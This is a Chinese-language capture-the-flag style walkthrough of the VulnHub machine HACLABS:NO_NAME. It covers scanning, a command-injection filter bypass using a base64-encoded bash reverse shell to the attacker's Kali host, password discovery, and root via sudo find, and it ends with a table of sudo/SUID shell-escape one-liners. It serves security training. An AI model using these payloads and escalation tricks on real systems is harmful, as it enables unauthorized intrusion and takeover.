# VulnHub-HACLABS:NO_NAME

## 靶机下载链接

https://www.vulnhub.com/entry/haclabs-no_name,429/

## 简要描述

This a beginner level machine , getting a shell is a little bit harder, just think out of the box to get the shell.privilege escalation is easy once you get the shell.
这是一台初级机器，获得 shell 有点困难，只需开箱即用地思考即可获得 shell.一旦获得 shell，权限提升就很容易。

This machine has 3 flags. Each flag is present in the Home directory of particular user. Be ready to test your Linux skills.
这台机器有 3 个标志。每个标志都存在于特定用户的 Home 目录中。准备好测试您的 Linux 技能。


## 安装

运行虚拟机的时候可能会报这个错误

End kernel panic - not syncing: attempted to kill the idle task

直接设置处理器核心数为2，显存为32MB即可，具体教程如下：

https://blog.csdn.net/weixin_51900414/article/details/136439092


## 网络设置

因为我的kali安装在vmware上，而这个靶机在virtualbox上，所以要实现网络的互通

将这两台虚拟机的网络设置为主机模式即可

参考文章如下：https://www.cnblogs.com/IFS-/p/18137168

现在virtualbox的网络管理器里面创建一个：



然后具体再分配给虚拟机



vmware同理：






这样已经成功分配了，注意要全部重启，并且先启动virtualbox再启动vmware



已经可以扫到了


## 转为vmware兼容的格式

参考链接：https://stackoverflow.com/questions/29071662/fail-to-import-ova-file-to-vmware-player

直接virtualbox导出为OVF格式1.0

然后将虚拟机导入vmware中即可


## Attack

注意，靶机本来就是没有账号密码的，这个模拟实际的攻击环节，所以要通过一些东西去探测

### 主机存活

```
sudo netdiscover -i eth0 -r 192.168.186.0/24
```


发现靶机

```
192.168.186.2
```


但后续还是使用转格式的方式进行测试



```
192.168.79.130
```


### 主机信息探测

更换ip即可

```
192.168.79.130
```

SYN扫描

```
sudo nmap -sS 192.168.186.2 -p-
```

侵略性扫描

```
nmap -A -p- 192.168.124.13
```

- -A实际上是多个参数的组合，有操作系统-o扫描，服务版本-sV扫描，脚本扫描，路由追踪扫描

```
nmap -A -T4 -p 1-65535 192.168.186.2
```

终极干扰扫描：（不建议使用）

```
nmap -sS -D RND:3 -f --data-length 30 --scan-delay 1s -T3 192.168.186.2 -p 1-65535
```

全量扫：

```
sudo nmap -sS -sV -sC -p- 192.168.186.2 -oN nmap_full_scan
```




一个开放端口

```
80
```


### 网站探测

访问网站，估计是什么命令执行吧




提交`ls`，得到`Fake ping executed`


#### 使用nikto扫描web站点

```
nikto -h http://192.168.79.130
```



#### gobuster扫描目录

```
gobuster dir -u http://192.168.79.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```



得到

```
/admin
/server-status
```


加个php拓展名继续扫描，好像也没有什么东西

```
gobuster dir -u http://192.168.79.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```



换个字典

```
gobuster dir -u http://192.168.79.130 -w /usr/share/wordlists/dirb/big.txt -x php
```



有点东西

```
/admin
/server-status
/superadmin.php
```


#### 访问资源

##### /admin



将这三张图片下载下来，估计有一些隐写


##### /server-status

无信息

##### /superadmin.php



确定就是熟悉的命令执行




### 渗透尝试

已知该目录，/superadmin.php

```
127.0.0.1|ls
```

无回显

```
127.0.0.1|cat /etc/passwd
```

无回显


```
127.0.0.1|id
```

显示：



估计就是ban了几个常见的命令

经过尝试可以使用下面的命令

```
127.0.0.1|cat superadmin.php
127.0.0.1|tac superadmin.php
127.0.0.1|more superadmin.php
127.0.0.1|less superadmin.php
```




```php
<?php
   if (isset($_POST['submitt']))
	{
        $word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
        $pinged=$_POST['pinger'];
        $newStr = str_replace($word, "", $pinged);
        if(strcmp($pinged, $newStr) == 0){
            $flag=1;
        }
        else{
            $flag=0;
        }
	}
	if ($flag==1){
		$outer=shell_exec("ping -c 3 $pinged");
		echo "<pre>$outer</pre>";
    }
?>
```

F12在源代码里面

可以看到ban掉了

```
$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
```


那就构造反弹shell呗，没有一点提示


### 反弹shell

在线构造工具：https://www.ddosi.org/shell/

ip填kali的ip

```
bash -i >& /dev/tcp/192.168.79.128/9001 0>&1
```

但是因为过滤了反斜杠之类的，所以直接base64编码后解码

```
bash -i >& /dev/tcp/192.168.79.128/9001 0>&1
```

先对上面进行base64编码，可以直接hackbar也可以命令行

```
echo "bash -i >& /dev/tcp/192.168.79.128/9001 0>&1" | base64
```

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc5LjEyOC85MDAxIDA+JjEK
```


最终payload：

```
|echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc5LjEyOC85MDAxIDA+JjEK"|base64 -d|bash
```

然后监听命令放在kali上

```
nc -lvnp 9001
```





### flag搜索

```
cat /etc/passwd | grep bash
```

找到两个可疑账户




#### flag1.txt

```
cat /home/yash/flag1.txt
```



```
Due to some security issues,I have saved haclabs password in a hidden file.
```

显示haclabs用户的密码在一个隐藏文件里面

```
find / -type f -user yash 2>/dev/null
```



```
cat /usr/share/hidden/.passwd
```



得到密码

```
haclabs1234
```

切换账户

```
su haclabs
```

显示

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
su: must be run from a terminal
```

这时候可以使用伪终端的方法：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

或者

```
script -qc /bin/bash /dev/null
```




#### flag2.txt

```
cat /home/haclabs/flag2.txt
```

找到一个flag2.txt



#### flag3.txt

```
cd /root
```

显示权限不足，那就是要普通用户提权到超级用户了

```
sudo -l
```



可以find提权

```
sudo -u root find . -exec /bin/bash \; -quit
```



find提权本质上是suid提权的原理


##### 提权提升

sudo提权，下面的命令都可以进行尝试

```
wget、find、cat、apt、zip、xxd、time、taskset、git、sed、pip、ed、tmux、scp、perl、bash、less、awk、man、vi、env、ftp
```

一般流程就是

```
sudo -l
```

查看当前用户能够以root权限运行的命令，这个靶机只有find命令可以以root权限运行所以只能这样了


大纲，来源：https://www.freebuf.com/articles/system/362070.html

```
命令	      利用方法
zsh	        zsh
xargs	      xargs -a /dev/null sh -p
watch	      watch -x sh -c ‘reset; exec sh -p 1>&0 2>&0’
timeout	    timeout 7d /bin/sh -p
time	      time /bin/sh -p
tclsh	      1、tclsh 2、exec /bin/sh -p <@stdin >@stdout 2>@stderr
taskset	    taskset 1 /bin/sh -p
stdbuf	    stdbuf -i0 /bin/sh -p
strace	    strace -o /dev/null /bin/sh -p
ssh	        ssh -o ProxyCommand=’;sh -p 0<&2 1>&2’ x
setarch	    setarch $(arch) /bin/sh -p
rsync	      rsync -e ‘sh -p -c “sh -p 0<&2 1>&2”’ 127.0.0.1:/dev/null
rpm	        rpm --eval ‘%{lua:os.execute("/bin/sh -p")}’
python	    python -c ‘import os; os.execl("/bin/sh", “sh”, “-p”)’
php	        1、CMD="/bin/sh" 2、 php -r “pcntl_exec(’/bin/sh’, [’-p’]);”
nice	      nice /bin/sh -p
nano	      1、nano //运行nano程序  2、^R //按下ctrl-r 3、^X //按下ctrl-x 4、reset; sh -p 1>&0 2>&0
                             // 输 入下面的命令
more	      1、more /etc/profile  2、!/bin/sh -p
logsave	    logsave /dev/null /bin/sh -i -p
less	      less /etc/profile //读取文件，在底行输入!/bin/sh -p
ksh	        ksh -p
ip	        1、ip netns add foo 2、ip netns exec foo /bin/sh -p 3、ip netns delete foo
ionice	    ionice /bin/sh -p
git	        git help status
gimp	      gimp -idf --batch-interpreter=python-fu-eval -b ‘import os; os.execl("/bin/sh", “sh”,         “-p”)’
gdb	        gdb -nx -ex ‘python import os; os.execl("/bin/sh", “sh”, “-p”)’ -ex quit
ftp	        ftp //在底行输入“!/bin/sh -p”
flock	      flock -u / /bin/sh -p
find	      find . -exec /bin/sh -p ; -quit
expect	    expect -c ‘spawn /bin/sh -p;interact’
env	        env /bin/sh -p
ed	        ed //在底行输入“!/bin/sh -p”
docker	    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
dmesg	      dmesg -H//在底行输入“!/bin/sh -p”
csh	        csh -b
bash	      bash -p
awk	        awk ‘BEGIN {system("/bin/bash -p")}’
perl	      perl exec “/bin/bash”;
```

